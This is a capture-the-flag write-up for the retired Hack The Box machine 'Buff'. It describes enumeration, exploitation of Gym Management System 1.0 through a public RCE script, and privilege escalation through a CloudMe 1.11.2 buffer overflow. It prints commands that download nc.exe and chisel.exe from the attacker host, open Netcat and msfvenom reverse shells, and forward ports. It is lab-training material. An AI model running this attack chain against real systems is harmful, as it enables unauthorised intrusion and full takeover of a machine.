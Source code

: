 # Buff

This is the write-up for the box Buff that got retired at the 21st November 2020.
My IP address was 10.10.14.11 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.198    buff.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/buff.nmap 10.10.10.198
```

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
```

## Checking HTTP (Port 8080)

The web page seems to be a custom developed application for a fitness website and all pages in the menu have a PHP extension.
On the top right is a login form and the copyright on the bottom shows [Projectworlds.in](https://projectworlds.in/).

In the menu _Contact_ it says that it is made using _"Gym Management Software 1.0"_.
On the website **Projectworlds.in**, there are different PHP projects and one them is [Gym Management System 1.0](https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/).

By searching for vulnerabilities for this software, there is a **Unauthenticated Remote Code Execution** vulnerability:
```
searchsploit gym

Gym Management System 1.0 - Unauthenticated Remote Code Execution
```

Using the Python exploit script:
```
python2 48506.py 'http://10.10.10.198:8080/'
```

It starts a shell on the box as the user _shaun_, but it is not possible to change directories as this is not a persistent shell.
We can upload **Netcat for Windows** to the box and connect to a reverse shell:
```
C:\xampp\htdocs\gym\upload> curl 10.10.14.11:8000/nc.exe -o nc.exe

C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.11 9001 -e powershell
```

The binary _nc.exe_ gets downloaded and after executing it, a reverse shell connection on my IP and port 9001 is established as _shaun_.

## Privilege Escalation

In the home directory _C:\Users\shaun\Downloads_ is a file called _CloudMe_1112.exe_.

After researching the file name, it seems to be software from [CloudMe](https://www.cloudme.com/) for a synchronization and storage service.
The number shows the _version 1.11.2_ which has a publicly available **Buffer Overflow** vulnerability:
```
searchsploit cloudme

CloudMe 1.11.2 - Buffer Overflow (PoC)
```

The exploit is a Python script that abuses a service on port 8888 that runs on the localhost of the box.

> NOTE: This port does not listen continuously and exploitation may take several tries.

Creating a payload with **Msfvenom** and replacing it in the exploit code:
```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9002 -b '\x00\x0A\x0D' -f python
```

The port 8888 has to be forwarded to our client to make this exploit work, so I use [Chisel](https://github.com/jpillora/chisel) and upload it to the box:
```
curl 10.10.14.11:8000/chisel.exe -o chisel.exe
```

Starting the **Chisel server** on our client:
```
./chisel server --reverse --port 9003
```

Forwarding port 8888 from the box to our local client:
```
.\chisel.exe client 10.10.14.11:9003 R:8888:localhost:8888
```

Executing the exploit:
```
python3 48389.py
```

After executing the exploit script, the listener on my IP and port 9002 starts a reverse shell as _Administrator_!

